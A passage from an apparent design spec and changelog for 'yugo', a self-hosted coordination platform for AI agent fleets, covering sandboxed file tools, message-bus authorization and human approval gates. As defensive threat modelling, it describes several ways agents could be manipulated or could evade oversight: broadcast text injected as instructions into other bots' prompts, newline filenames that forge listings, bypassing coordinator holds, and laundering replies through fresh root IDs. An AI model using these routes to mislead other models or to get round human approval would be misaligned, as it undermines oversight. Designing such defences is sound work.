- **A timed-out filesystem call is not proof that nothing happened.** Python cannot cancel a worker thread already inside a syscall, so a `write_file` that timed out may still complete afterwards. The audit records the call as timed out *from the harness's perspective*, and §9.3 now says so — anyone reasoning about "did that write land" from the audit alone will eventually be wrong. Also recorded: `O_NONBLOCK` gives no deadline for a regular file (it is the pre-`fstat` defence for special files only), workspaces should stay on local or bind-backed storage, and a deployment that introduces stalling FUSE/network mounts makes the default executor exhaustible and needs a bounded execution design rather than `to_thread`.

**Changes from v12.7** (fourth stop — a stale paragraph three lines above the text I had just added):

- **§9.3 said "Over a bound is a NAMED ERROR, never truncation… Same for a listing" and v12.7 made `list_dir` truncate.** A direct contradiction, and exactly the failure the v12 fable review named as this document's habit: fixed in the new section, left stale in the paragraph above it. Restated as **"never SILENT truncation"**, which is the rule that was actually being protected, with the two tool families satisfying it differently and the reason spelled out — file content has no structure to annotate, so a partial read is indistinguishable from a whole one and must be refused; a listing has a header, so a stated truncation is not silent. Refusing a listing would also be strictly worse than refusing a read: a bot with `max_entries + 1` files could never list its workspace again, and there is no delete tool to get back under the bound.

**Changes from v12.6** (third stop — and this one was my own contradiction, written minutes earlier):

- **v12.6's `list_dir` header was internally inconsistent.** The example read `# 3 entries, 1 omitted` and then rendered three entries, implying "entries" meant the LISTED count and the physical total was 4. The prose said the header "carries the entry total" and that bad names are "counted in the header", implying it meant the PHYSICAL total and only two lines should follow. The word "entries" never said which. Settled by removing the inference entirely: the header carries **three explicit numbers — listed, omitted, total** — and truncation is stated in words rather than left to a comparison. A model that has to infer which count it is holding will eventually infer wrong, and a listing is the one output where a wrong count reads as "that file does not exist".
- **`max_entries` bounds the LISTED count, not the total** — the bound protects the model's context, and an omitted entry costs a counter increment rather than a line. The total is still reported honestly so the model knows it is seeing a subset.
- **The directory scan is bounded**: over 100000 entries is a named tool error. Reporting an exact total means walking the whole directory, and an unbounded walk is a tool that can hang the turn on a pathological mount.

**Changes from v12.5** (second gap Vec found while implementing, stopped again before opening a PR):

- **A newline is a legal POSIX filename character, and "one entry per line" cannot represent it.** v12.5 named only non-UTF-8 entry names as unrepresentable and left line breaks undefined, while `write_file` happily created them. That is a **model-deception vector**, not a formatting bug: a bot could write a file whose name contains `\n` and have it list as TWO entries, forging a listing the model then reasons about — the tool lying on the bot's own instruction. Now: control characters (C0 and `U+007F`) are refused in any path component handed to any of these tools, before the filesystem is touched, which closes it at creation and invents no escaping scheme.
- **`list_dir` gains an always-present header line**, and unrepresentable entries — non-UTF-8 or control-bearing — are **counted there rather than failing the whole call**. v12.5 said a non-UTF-8 name made the call a named error; that was wrong on reflection, because such a name can only arrive from outside the bot, and one file it did not create and cannot delete would make its own files invisible. Counting is honest and hides nothing. The header is disambiguated by position, not content, and carries the total so a model can see it hit `max_entries` instead of inferring an empty tail.

**Changes from v12.4** (gaps Vec found in §9.3 and stopped rather than inventing — the brief asked for exactly that, and it worked):

- **§9.3.1 — a tool now DECLARES the config keys it accepts, and §9.1's example was fatal against the shipped loader.** §9.1 made an unknown config key fatal and never said who decides which keys are known, so v0.4b-1 rejects every non-empty config — correct while `loop_probe` was the whole registry, wrong the moment a tool has options. `read_file: {max_bytes: ...}`, the worked example in §9.1, would abort startup on `main` today. Fixed by putting the declaration with the tool rather than a table in the loader. Value rules added, including the `bool` case: `isinstance(True, int)` is True in Python, so `max_bytes: true` silently becomes a 1-byte bound unless rejected explicitly.
- **§9.3.2 — a missing `$YUGO_WORKSPACE_PATH` is created (mode `0700`), not fatal**, conditional on a filesystem tool being granted, exactly as the `openat2` check is. Aborting would fail every fresh deployment on first boot for no security gain. Path-exists-but-not-a-directory and cannot-create stay fatal.
- **`list_dir` output specified**: one entry per line, byte-sorted for stable diffs, `/` for directories and `@` for anything neither a regular file nor a directory — because `RESOLVE_NO_SYMLINKS` means the tools can never open those, and listing one as an ordinary file promises a read that always fails.
- **`write_file` returns a path plus byte count, never an echo of the content** — the result lands in both the model's context and the audit line, and echoing a 256 KiB write into both turns a bounded tool into an unbounded one. Created files `0600`, directories `0700`.

**Changes from v12.3** (v0.4b-2 tool semantics, settled by Fernando 2026-08-28):

- **New §9.3 — what the filesystem tools actually DO.** §9.2 specified confinement in full and said nothing about semantics, which is the same gap §9.1 exists to close one level up: "the `.yaml` suffix is not a contract" applies equally to "`read_file` reads a file". Left unwritten, 4b-2 would have invented path conventions, bounds and error behaviour the way 4a invented a declaration grammar. Settled: workspace-relative paths only; `write_file` overwrites and creates parents, no append; 1 MiB read / 256 KiB write / 1000 entry defaults; over-bound and non-UTF-8 are **named errors, never truncation or replacement characters**, because a lie about content is worse than a refusal.
- **`list_dir` added to the v0.4b tool set.** `read_file` + `write_file` alone let a bot write files it can never enumerate — it would have to remember every path it created across turns, in a history buffer that evicts. That is half a filesystem, and it is the first wall the one bot on the native harness would hit.
- **Parent-directory creation is confined too.** Called out explicitly because an implementation that validates a path and then calls a plain `os.makedirs` has reintroduced the exact check-then-use window §9.2 was written to remove.

**Changes from v12.2** (fable-arch adversarial review of v12.2, 2026-08-28 — SHIP-WITH-EDITS, one SEV2 + four SEV3, all folded):

- **SEV2 — §9.1 specified the grammar but not the LOADER.** It named PyYAML in the duplicate-key rule and never required `yaml.safe_load`, so a coder reaching for the obvious `yaml.load` would give a grant file arbitrary code execution at startup, before any fail-closed rule ran. §9.1 now forbids the default loader outright. The section that exists to stop "leave it to the implementer" had left the largest such decision to the implementer.
- **SEV3 — `RESOLVE_BENEATH` does not stop HARDLINKS,** and §5/§9/the changelog stated the audit-tamper invariant unconditionally. A hardlink inside the workspace pointing at the audit log resolves through beneath-the-root non-symlink components and opens. Not reachable at v0.4b (no granted tool can create a link) but the guarantee is "no link-creating primitive is granted", not "the kernel prevents it". §9.2 says so now; the absolute wording is downgraded.
- **SEV3 — the absent-grant-file rule is fail-closed for capability but fail-SILENT for intent.** An operator who mistypes the mount path gets a working, tool-less bot and no diagnostic. Absence stays non-fatal; §9.1 now requires a startup line naming the resolved path, whether a file was found, and the tool count.
- **SEV3 — §10 and §11 were left stale,** which is this document's signature failure (v12's own review: "fixed in the headline section, left stale in §14/§15"). §9.1/§9.2 added roughly a dozen startup-fatal conditions and one mandatory conformance test; the error contract listed only "persona file missing" and the testing section named neither. Both reconciled.
- **SEV3 — the `:ro` tamper claim is now scoped to a threat model** (tamper-proof against the *bot process*; host compromise is out of scope), and §9.2 names gVisor as the environment where "fail closed if `openat2` is unavailable" becomes a permanent boot failure rather than a rare one. Verified available under Docker's **default** seccomp profile on the deployment kernel.

**Changes from v12.1** (the three v0.4b decisions, settled by Fernando 2026-08-28 — full reasoning in `vault/projects/fleet/yugo/V04-SANDBOX-DECISIONS.md`):

- **Tool declarations move OUT of IDENTITY.md into their own file (`$YUGO_TOOLS_FILE`).** §9 said *"Tools declared per bot in IDENTITY.md"* and never specified a grammar. A tool declaration is a **capability grant**, and IDENTITY.md is free-form prose edited by whoever tunes a bot's voice — one file meant one permission to change both. Three concrete consequences drove the split: (1) v0.4b ships `write_file`, and the grant list was safe only by accident of directory layout, with no invariant stated — §9 gave exactly that invariant to the audit log and missed the same class here; (2) the whole persona file is prepended as the system prompt AND parsed for declarations, so the model reads its own grant list as prose and "live block or example?" is decided by fence rules a persona author must hold in their head — v0.4a shipped two fence defects where documentation was executable; (3) a separate file is bind-mounted `:ro` like `persona.md` already is, making the grant tamper-proof **at the kernel** rather than at a path-prefix assertion. The audit log cannot have that property because it must stay writable; the grant list can.
- **`read_file` / `write_file` confinement is resolved-path validation, NOT chroot or namespace isolation.** §9 said *"chroot'd **or** namespace-isolated"*. Neither is achievable: both need privileges the bot does not hold inside its own container, and the `or` hid that the spec named two mechanisms without checking either was available. Replaced with: resolve the path, follow every symlink, assert the result sits under the bot's workspace, reject otherwise. **Honest about the strength** — weaker than a kernel boundary; it holds because the container is the real boundary (§9 already keeps the Docker socket unmounted), and path validation stops a bot wandering *within* the container, which is the threat this tool actually creates.
- **The grant file has a GRAMMAR, not just a path (§9.1), and confinement has a race-safe MECHANISM (§9.2).** Both added in review. The first draft named `/etc/yugo/tools.yaml` and specified nothing about the document — which would have left 4b inventing a second grant grammar, the exact problem the move was made to solve. The second draft offered `O_NOFOLLOW` on the final component as sufficient against TOCTOU; it is not, and §9.2 records why so it is not reinvented. `openat2` with `RESOLVE_BENEATH` is now required, and `read_file`/`write_file` fail closed when it is unavailable.
- **Bot workspace location specified: `/var/lib/yugo/workspace/<bot>` (`$YUGO_WORKSPACE_PATH`).** Nobody had said where it lives. Same tree as the audit log so one volume covers both, one directory per bot so no bot reads another's files, and deliberately a `workspace/` **subdirectory** — the audit log at `/var/lib/yugo/tool-audit.jsonl` sits one level above it and outside `write_file`'s reach *by path*. **Do not widen the scope to `/var/lib/yugo`.** That invariant is not purely kernel-enforced — see §9.2 on hardlinks — and additionally depends on no granted tool offering a link-creating primitive, which holds through v0.4b.

**Changes from v12** (fable v12 ship-verify polish items):
- **SEV2 v12.1 fix — PWA session revoked automatically when human removed from `admins:`.** Was: de-adminned human retained PWA approve authority for up to 30 days until `/yugo pwa revoke` invoked manually. Now: `admins:`-removal diff triggers auto-revoke of that human_id's PWA sessions. Closes the offboarding window structurally.
- **SEV3 v12.1 fix — first-ever startup notice reads "initial policy load" not a diff.** Was: coord posted a diff-shaped notice even on first startup (no prior snapshot exists to diff against), crying wolf on legitimate boot. Now: distinct `📋 initial policy load` notice for first startup; diff notice only fires when a prior snapshot is present.

**Changes from v11** (in response to fable arch review v11 — "v12 with exactly these edits is SHIP-AS-IS"):
- **SEV1-1 fix — HITL Approve/Reject/Redirect buttons gated by `admins:`.** v11 gated slash-commands but not decision-buttons; that left the primary Discord approval path checking only channel membership, defeating the point of the trust boundary. v12 extends the same `admins:` lookup to every HITL interaction on both Discord and PWA surfaces. Non-admin clicks rejected with ephemeral reply + audit line, same code path as §7A.5 command authz.
- **SEV2-1 fix — break-glass watchdog grep pattern corrected + stateful.** v11's `grep -E '^[^#]*users.*break-glass'` couldn't match (multi-line NATS user blocks). v12 uses `^[^#]*break-glass` (any uncommented line containing the token) and adds `/var/lib/yugo/break-glass-watchdog.state` for a first-seen timestamp so the stateless cron can compute the ">1h" threshold.
- **SEV2-2 fix — reuse alert reachable.** v11's "ephemeral alert to install invoker" on URL reuse was unimplementable (Discord ephemerals require an interaction context; an HTTP GET is not one). v12 replaces with a content-free `@invoker` mention in `COORDINATOR_CHANNEL_ID` — implementable, safe, and arguably better (other admins see it too).
- **SEV2-3 fix — POLICY_FILE tamper visible on startup.** v11's reload notice only fired on SIGHUP/reload, so an attacker who edited POLICY_FILE and killed coord would restart to no diff (fresh startup, no snapshot). v12 persists the last-loaded snapshot hash + `admins:` list in `TASK_STATE_PATH` sqlite so startup load emits the diff too.
- **SEV3 fixes:** device-scoped session cookie makes install-page refresh/back idempotent (SEV3-1 — was crying wolf on legit browser reload); superseded-annotations added to v10 changelog lines that documented the code-in-ephemeral attack-path design (SEV3-2 — kept for history, marked so implementers don't resurrect); one-sentence clarification that "self OR admin" revoke branch is dead code at 7c1 but retained for v0.8 non-admin bootstrap paths (SEV3-3).

**Changes from v10** (in response to fable arch review v10):
- **SEV1-1 fix — restored v9's device-possession-proof design for PWA install.** v10's SEV2-2 rework put confirm-code in the ephemeral response — broke the device-possession invariant since invoker knew code without opening URL. v11 restores: confirm-code generated server-side AT install-page LOAD, displayed ONLY on the device that opened the URL. Install URL is now **SINGLE-USE** (first exchange consumes it). Every successful token issuance sends install invoker an ephemeral notice with IP+UA+revoke-if-not-you. Uniform QR-and-paste flow — both terminate at confirm-code echo.
- **SEV2-1 fix — break-glass `--close` no longer voluntary.** Relay script traps SIGINT/SIGTERM/exit, auto-runs `--close` on shutdown, refuses silent orphan (--force-orphan for deliberate override, audited loudly). PLUS: independent cron on NATS host greps nats.conf every 5 min, alerts to coord-independent Discord webhook if break-glass block un-commented for >1h.
- **SEV2-2 fix — command authorization gated by `admins:`.** Override commands (`/yugo mode`, `/yugo lock/unlock`, `/yugo freeze/unfreeze`, `/yugo policy reload`, `/yugo pwa install`) require invoker Discord ID in `admins:` block. `/yugo policy show` unauthenticated (read-only). Channel restriction is defense-in-depth, not sole barrier.
- **SEV2-3 fix — `dedup-recover` gains third `since:<ts>` option.** Uses JetStream `DeliverByStartTime`. Recommended default when store had rows before truncation. Heuristic documented: prefer `since`/`new` after truncation; `all` only when store young + fleet idempotent-safe.
- **SEV3 fixes:** deleted stale "POLICY_FILE requirement transfers to 7c3" (was contradiction with §5+§15 7b); added `admins:` to §7A.4 canonical YAML shape; POLICY_FILE reload posts change-summary notice to `COORDINATOR_CHANNEL_ID` with prominent `admins:` diff callout; namespace note for payload.kind vocabulary (broadcast vs directed) actually landed in body this time (was claimed-fixed-not-landed in v10); break-glass runbook explicit "bypasses HITL entirely, do not open if bot compromise suspected".

**Changes from v9** (in response to fable arch review v9):
- **v10 also did the grep-sweep FIRST** (before adding text) — v9's sweep missed the S2-9 timeout in §15 7b + the stale `.status.coordinator` in break-glass block. Both fixed here.
- **SEV1-1 fix (v9 break-glass paper control) per Fernando's option-B call — break-glass account COMMENTED-OUT by default in `nats.conf`.** Operator uncomments during incident + `nats-server --signal reload`; comments back out on close (MANDATORY closing step, verified by `--close` runbook mode). "Any connection while disabled" is now structurally impossible — no monitor-process alert plumbing needed. Post-incident audit log at `/var/lib/yugo/break-glass-log.jsonl` (SSH principal, start/close timestamps, envelope count).
- **SEV2-1 fix — `HELD_TIMEOUT_MS` default reconciled to 900000 EVERYWHERE.** §5, §15 7b, §7A.4 YAML example all now say 900000 (15min). v9's grep-sweep missed the §15 hit; caught this round.
- **SEV2-2 fix — QR/URL delivered via Discord ephemeral interaction response, not DM.** Works for users with any DM privacy setting (`Allow DMs from server members` disabled no longer breaks bootstrap). *(v10 wording said "Response contains QR + paste-URL + confirm-code all together, visible ONLY to invoker" — SUPERSEDED by v11 SEV1-1: confirm-code is NEVER in ephemeral; born on install-page.)*
- **SEV2-3 fix — confirm-code invoker MUST equal install invoker.** Explicit invariant; mismatch = pairing rejected + audit. *(v10 "no confirm-code needed on QR path" clause SUPERSEDED by v11: QR path also requires confirm-code echo for uniform device-possession proof.)*
- **SEV2-4 fix — `admins:` block schema specified.** Keyed by Discord ID (not human_id, since human_ids don't exist pre-install). First-admin bootstrap = Fernando adds his Discord ID to POLICY_FILE at initial deploy. `/yugo pwa revoke` is Discord-command only (never PWA-issuable) — prevents stolen-PWA mass-revoke.
- **SEV2-5 fix — `/ops/dedup-store-recovery.md` procedure specified in-doc.** `yugo dedup-recover --store <path> --deliver-policy <all|new> --acknowledge-replay-risk` — explicit operator-choice command re-stamps marker with UTC + operator identity + chosen policy.
- **SEV3s:** `.status.coordinator` in break-glass block replaced by `fleet.coordinator.status` (v9 grep-sweep miss); namespace note added distinguishing broadcast-kind vocabulary vs directed-payload discriminant vocabulary.

**Changes from v8** (in response to fable arch review v8 + mechanical stale-term sweep):
- **v9 also did the grep-sweep** fable v8 called out — searched the spec for every renamed/removed term (`broadcast_note`, `on that root`, `fleet.status.>`, `text_message` undefined, unknown-tool bypass) and reconciled every hit. Two of v8's SEV1s were exactly this pattern: fixed in headline sections, left stale in §14/§15. Won't recur going forward.
- **SEV1-1 fix (v8 SEV1-1 regression)** — `broadcast_note` deleted from §14 adapter contract docstring (still in §7.1 removal note as history). Adapter built from §14 now rejects `broadcast_note` with audit entry.
- **SEV1-2 fix — PWA install flow hardened per Fernando's QR choice.** `/yugo pwa install` triggers coord to DM a QR code (never posted in channel). QR encodes signed URL with 10-min TTL (`PWA_INSTALL_URL_TTL_SEC` default 600). Scan from phone. Fallback: paste URL + 6-digit `/yugo pwa confirm <code>` echo. Every token issuance audits `human_id`, IP, User-Agent, bootstrap method. Closes v8's interceptable-URL forged-approval primitive.
- **SEV1-3 fix (v7 SEV1-2 regression)** — §15 7b invariants text rewritten from "on that root" to pair-scoped, matching §7A.1 verbatim. Fresh-root laundering hole closed at the slice level (was already closed in §7A.1).
- **SEV2 fixes:** (S2-1) coord authz grant is `fleet.*.status` — covers the renamed heartbeat subject; (S2-2) late strict returns audit-flagged `late_strict_return`; (S2-3) unknown-tool fails to CLASSLESS not `code_review` — closes the fail-open bypass; (S2-4) `text_message` payload discriminant defined (envelope `payload.kind` field), `default_chat` allowed only for `text_message`, conformance test asserts; (S2-5) `_initialized_at` marker written in same transaction as store schema, absent-marker = FAIL-LOUD abort not silent New; (S2-6) 7c2 mutation routes DO NOT EXIST server-side (404, not 403); (S2-7) `/yugo pwa revoke <human_id>` command added with admin-check; (S2-8) break-glass credential MUST be offline + any connection triggers audit + alert; (S2-9) `HELD_TIMEOUT_MS` default raised 5min → 15min to accommodate mobile approve latency.
- **SEV3 fixes:** §14 closing line reconciled with `contrib-adapters/` — no more same-doc contradiction; `SurfaceAdapter` still forward-referenced as v0.8+ scope; RFC 8291 wording clarified (defense-in-depth not the mechanism).

**Changes from v7** (in response to fable arch review v7 + Fernando's Discord-decoupling call):
- **SEV1-A fix — `broadcast_note` DROPPED from allowlist.** Was the one attacker-controllable free-text kind in the broadcast schema, would land in LLM prompts via `fleet_status()` returns. Humans get "hey everyone" via Discord `#deet-fleet` bridge or PWA chat (v0.8+), not fleet-bus. Remaining broadcast kinds are all machine-structured: `heartbeat`, `presence`, `capacity`, `cache_invalidate`, `config_reloaded`.
- **SEV1-B fix — PWA gets its own slice + coord-owned auth model.** Coordinator issues its own session tokens bound to a coord-owned `human_id`. Bootstrap methods pluggable: Discord slash-command (v0.7.7c ship), magic-link email (v0.8), WebAuthn (v0.8+). **Coord does not require Discord to function.** New slices 7c1..7c3 spec the PWA properly. Push payloads are content-free ("tap to open") so Google/Mozilla push services never see envelope content.
- **SEV1-C fix — break-glass runbook rewritten as standby relay.** Old runbook re-granted `.request` subscribe permission but adapters had removed the subscribe CODE — restored nothing. Now: dedicated `break-glass` NATS user with subscribe on `fleet.*.request` + publish on `fleet.*.inbox`; standby relay process is a tiny `nats sub / nats pub` loop or a headless container. Operator starts relay during extended coordinator outage, stops it when coord recovers. No adapter or permission changes.
- **SEV2 fixes:** (S2-i) adapter + coord de-dup stores use `initialized_at` marker row exempt from cull, distinguishes initial-vs-re-creation deterministically; (S2-ii) heartbeat subject renamed `fleet.coordinator.status` — matches STA authz family; (S2-iii) strict window explicitly bounded: open = original forwarded, close = return-decision OR `strict_window_timeout` (audited); (S2-iv) classless HITL prompt gets prominent "UNCLASSIFIED — possible strict evasion" banner; (S2-v) v0.5x retrofit specifies classification sources per adapter (engine message-type mapping, tool-context derivation) + forbids blanket `chat` default + conformance test includes non-chat case; (S2-vi) `contrib-adapters/` location carved out for engines yugo doesn't own (hermes-agent, others).
- **SEV3 fixes:** POLICY_FILE hashed at each hold decision (not just 30s poll); `fleet_status_tool` capability field added to `AdapterCapabilities` (§14); `$YUGO_COORDINATOR_DEDUP_PATH` explicitly required from 7b.
- **§2 scope broadening (Fernando's call):** yugo is EVENTUALLY a full chat surface via the PWA (v0.8+), not just an approval UI. Discord becomes one bridge surface among several. Source of truth is the coord + PWA, not Discord.

**Changes from v6** (in response to fable arch review v6):
- **SEV1-1 fix — classless short-circuit only skips class-dependent rules.** Was skipping `global_override` too, defeating freeze. Now classless resolution = strictest of matching `global_override`, matching class-independent `hops_rule`/`origin_rule` entries, and `global_default`. YAML validation requires `global_default ≥ approve`.
- **SEV1-2 fix — strict return-gate pair-scoped.** Was root_id-keyed; recipient could launder by publishing fresh root. Now: while any strict root R→B is outstanding, coordinator holds ALL envelopes B→R regardless of `root_id` or class. Fresh-root B→R traffic in the window audit-flagged `suspicious_correlation_gap`.
- **SEV1-3 fix — `.inbox` re-creation uses `DeliverPolicy=All`.** Was `New` on any "first creation" which silently drops approved holds during durable-deletion events. Now: initial creation = `New`; any re-creation of a previously-existing durable = `All` + rely on persistent de-dup. Adapter de-dup retention MUST ≥ `.inbox` stream `max-age`. FB-1 declares stream retention limits for both families.
- **SEV1-4 fix — broadcast is observable, ungated, and NEVER session-injected as LLM instruction content.** Per Fernando's locked position: broadcasts flow free (no coordinator hold), but coordinator + tap mirror every broadcast to Discord as a distinct visual lane (full observability), and adapters MUST NOT session-inject broadcast payloads as instructions. Adapters expose broadcast state via a `fleet_status` tool the LLM queries on demand. Closes the compromised-bot-broadcasts-instructions-to-every-LLM attack surface without adding coordinator load or ceremony.
- **SEV2 fixes:** S2-A §7A.5 rewritten (sidecar-only, no POLICY_FILE writes); S2-B coordinator `.request` durable pins `DeliverPolicy=New` on first creation, `All` on re-creation (same as inbox); S2-C coordinator liveness alerting + supervisor restart + break-glass `.request` subscribe re-grant runbook; S2-D `payload.class` retrofit slice landed BEFORE 7b (new v0.5x slice); S2-E POLICY_FILE mtime-watch warns COORDINATOR_CHANNEL_ID on stale-policy suspicion; S2-F de-dup + subscribe-revoke conformance tests moved into FB-3 PRs (not deferred to FB-4).
- **SEV3 fixes:** `fleet.coordinator.status` authz added (CO gains publish grant on STA); 7f crash-recovery note on duplicate re-prompts; sqlite lock NFS/overlay-fs caveat documented.

Prior changes preserved from v2..v6: JetStream mandatory for coordinator + HITL, coordinator/tap separate, reduced-homelab sandbox default, Apache-2.0 LICENSE, engine-plugin protocol (§14), authz map (§4.7), HITL state model (§4.4), full §7A policy section, `.result` removed / replies ride `.request` with `in_reply_to`, coordinator IS the relay from birth, `.inbox` is a JetStream stream, single-coordinator sqlite exclusive lock.

## 1 — What yugo IS

**A coordination platform for a fleet of agents, with a native LiteLLM-backed harness included.**

Two entrypoints from one install:

- **`yugo bot`** — runs a single native-harness bot. Bring your key, get a Discord-facing agent running. LiteLLM under the hood, any provider.
- **`yugo coordinator`** — runs the coordination process. Chat surface where humans + agents talk as peers, task/baton visibility, human-in-loop controls. Consumes fleet-bus. Engine-agnostic — coordinates yugo-native bots, hermes-agent, codex-container, Claude Code plugin bots, anything that speaks fleet-bus.

**Read "yugo" as the collection and the coordination around it, never as "the
native harness".** The native harness is the batteries-included default engine,
not the product. v0.5's `EngineAdapter` (§14) is what lets engines yugo does not
own — codex-container, hermes-agent, Claude Code plugin bots — join the same
fleet as peers, on the same bus, under the same coordinator.

**Bring your key, get a fleet.**

## 2 — What yugo IS NOT

- Not a hosted service. Self-hosted, open source.
- Not a LiteLLM proxy sidecar. Native harness uses LiteLLM as a library, in-process.
- Not a memory / RAG system. Persona is a static system prompt; v0.2 adds rolling per-thread history. Persistent memory (vault, sqlite) is the bot author's job on top.
- Not a scheduler. Cron automation optional per-bot.
- Not streaming (v0.x). Batched turn responses. Streaming decision revisited at v1.0.
- Not Discord-dependent. Discord is ONE bridge surface for the fleet's coordination — the coord + PWA form a self-contained chat + HITL platform that runs independently of Discord (v0.8+ full chat surface via PWA per §2.1). Discord slash-command bootstrap is the fastest v0.7.7c1 install path but not the only one (magic-link email + WebAuthn also planned).
- Not multi-channel / multi-guild in v0.1's native harness. One `bot`-mode process = one Discord channel. The COORDINATOR speaks fleet-wide.
- Not a replacement for the tap (yet). Tap keeps mirroring bus traffic to Discord in v0.6/0.7; coordinator does task board + HITL + PWA. Long term (v0.8+) coord's PWA subsumes both.

### 2.1 Long-arc scope (v0.8+ direction, non-binding until then)

Yugo's coord + PWA is a first-class chat surface. The current Discord dependency for humans is a bootstrap convenience, not an architectural requirement. v0.8+ direction:
- Full messaging in PWA (send/edit/react/thread) — chat between humans + bots via yugo's own DB, not Discord's
- Discord bridge becomes ONE surface among several (like an IRC bridge in Matrix)
- Coord DB is source of truth for coordination state; Discord is optional mirror for humans who want it
- Alternative bridges (Matrix, Revolt, Slack) become viable via a `SurfaceAdapter` protocol parallel to `EngineAdapter` (§14)

This is scope for v0.8+ — v0.7 ships with Discord as primary human surface + PWA as approval surface. But the architecture is decoupled from day one so v0.8 is additive not restructuring.

## 3 — Versioned roadmap

Reordered per Fernando's priority: engine adapters (v0.5) before coord mirror and HITL. Prove one coordinator can front all bot types before adding fancy control features.

| Version | Scope | Depends on | Status |
| --- | --- | --- | --- |
| **v0.1** | Native harness only. Discord + `litellm.acompletion` + persona. Single-turn, stateless. | — | Shipped |
| **v0.2** | Conversation history in native harness. Rolling per-thread buffer + optional LLM-summary compaction. | v0.1 | Planned |
| **v0.3** | Native harness fleet-bus adapter. Python port of `artifice-ia/fleet-bus/docs/CODEX-ADAPTER-DESIGN.md`. | v0.2, fleet-bus | Planned |
| **v0.4** | Native harness agent tool-use loop + reduced-homelab tool sandbox (§9). | v0.2 (history for tool_result appending) | Planned |
| **v0.5** | Engine plugin abstraction + first adapters (hermes-agent, codex-container). Each engine speaks fleet-bus via a per-engine adapter. Coordinator not yet built; this proves the adapter pattern works. | v0.3 | Planned |
| **v0.6** | Coordinator process skeleton. Pull-and-forward relay from birth (§15 6a). Sqlite state + instance lock mandatory. Read-only task/baton visibility + Discord mirror. | v0.5, **fleet-bus FB-1 + FB-2 landed** | Planned |
| **v0.7** | Coordinator human-in-loop controls. Requires **JetStream migration FB-1..FB-3 landed**. Approve/reject/redirect via held-envelope semantics, override commands, sqlite crash-recovery. | v0.6, fleet-bus FB-1..FB-3 | Planned |
| **v1.0** | Stable interfaces + docs + CI + published container images. | all above | Future |

**No incumbent bot migrates from codex-container / claude-discord to yugo native harness before v0.2 lands** — v0.1 native harness is stateless and can't remember the previous message. UX cliff we don't inflict.

## 4 — Architecture

### 4.1 Deployment view (v0.7 target)



**Key:** coordinator and tap are separate processes with different NATS roles. **Coordinator is a JetStream pull consumer on `fleet.<bot>.request` (v0.7); it publishes to `fleet.<bot>.inbox` after HITL approval.** Bots subscribe to their own `.inbox`, not to `.request`.

This line said the coordinator *consumed* `.inbox` and then published to those same inboxes, which is incoherent and contradicted §4.3 (flow), §4.7 (authz grants CO pull on `.request`, publish on `.inbox`), §7 and §15's sole-durable-consumer rule. Four sections agreed and this one did not.

**And the interposition is enabled by AUTHZ, not by JetStream.** What makes the coordinator unavoidable is §4.7 denying every bot subscribe on its own `.request` and granting publish on `.inbox` to the coordinator alone — core NATS enforces that today. JetStream makes the interposition *survivable*, by keeping envelopes durable while the sole consumer is down. The earlier wording credited JetStream with the topology itself, which overstates it and would mislead anyone reasoning about what breaks if JetStream is removed.

### 4.2 Message flow — native harness Discord ingress (v0.1, v0.2 adds history)



### 4.3 Message flow — v0.7 HITL with JetStream

```mermaid
sequenceDiagram
    participant A as Bot A (sender)
    participant JS as NATS JetStream
    participant C as coordinator
    participant B as Bot B (recipient)
    participant H as Human via Discord

    A->>JS: publish envelope to fleet.&lt;B&gt;.request (JetStream stream)
    JS-->>A: PubAck (durable)
    C->>JS: pull from fleet.&lt;B&gt;.request (coordinator is sole consumer of this stream)
    JS-->>C: envelope + delivery info
    C->>C: policy check — hold?
    alt Auto-release
      C->>JS: publish to fleet.&lt;B&gt;.inbox
      JS->>B: deliver (B is consumer of .inbox stream)
    else Held for HITL
      C->>H: prompt "Approve / Reject / Redirect?" in Discord
      H-->>C: response
      alt Approved
        C->>JS: publish to fleet.&lt;B&gt;.inbox
        JS->>B: deliver
      else Rejected
        C->>C: audit drop, ack original consumer
      else Redirected
        C->>JS: publish modified envelope with modified_by marker
        JS->>B: deliver
      end
    end
```

Topology change enabled by JetStream:
- Bots no longer subscribe directly to `fleet.<bot>.request` (the sender-facing topic).
- Instead, coordinator is the sole consumer of `.request` streams; bots subscribe to `.inbox` (coordinator-owned).
- Coordinator is the gate. HITL is topologically possible because ACK gating actually works.

### 4.4 HITL state model



**Sqlite state store is mandatory once v0.6 lands** — coordinator crash mid-hold with in-memory state means held envelopes silently vanish. `TASK_STATE_PATH` becomes required in v0.6+.

**`modified_by` marker on redirected envelopes** — otherwise recipient sees a human-rewritten payload attributed to the original sender. Marker is set on the redirected envelope: `modified_by: <human_id>, original_from: <sender_id>`.

### 4.5 Failure paths (native harness, v0.2+)



Typing indicator emitted BEFORE `_lock` acquire so queued users see activity. Code-fence-safe chunking. Persona-missing at startup = fatal (bot refuses to run).

### 4.6 Provider abstraction (native harness only)



Ollama and other self-hosted providers use `OLLAMA_API_BASE` (or provider-specific `api_base`), NOT an API key.

### 4.7 NATS authz map (v0.7 target)



- Coordinator has narrowly scoped publish (only to `.inbox`).
- Tap has zero publish.
- Bots publish to `.request`/`.broadcast` freely, subscribe only to their own `.inbox`/`.status` + `.broadcast.>`. **Bot subscribe to own `.request` is DENIED** — coordinator is the sole consumer. This closes the SEV1-1 gap where a still-active `.request` subscription would bypass coordinator holds.
- `.result` subject class is REMOVED (was in v4 spec). Replies travel as ordinary `.request` envelopes with an `in_reply_to` field; coordinator gates them by matching `root_id`. See §7A.1 (`strict` mode return-gate).
- **Both `.request` and `.inbox` are JetStream STREAMS** (SEV1-D v6 fix). `.request` gates the first hop; `.inbox` gates the last hop — approved envelopes are not lost if a recipient bot is restarting. Bots subscribe `.inbox` as durable consumers with `DeliverPolicy: New` on first-creation (skip historical backlog); adapter contract also requires persistent envelope-id de-dup (see §14). This prevents FB-3-flip replay of historical `prod_op`/`spend` envelopes.
- **Migration-window exception:** during FB-3 per-adapter migration (§15), the migrating adapter's bot user retains temporary subscribe permission on `fleet.<self>.request`. Grant is revoked in the same PR that flips the adapter to `.inbox`-only. End state (post-FB-3-for-all-adapters) is as diagrammed above.

## 5 — Config surface

### Common (both modes)

| Var | Purpose |
| --- | --- |
| `YUGO_MODE` | `bot` or `coordinator` — picks entrypoint |
| `BOT_NAME` | canonical fleet identity (matches `fleet-manifest.yaml` bot_names) |
| `TIMEZONE` | audit timestamps + optional cron |
| `LOG_LEVEL` | `INFO` default |

### Native harness (`YUGO_MODE=bot`)

| Var | Required | Purpose |
| --- | --- | --- |
| `DISCORD_BOT_TOKEN` | yes | Discord bot auth |
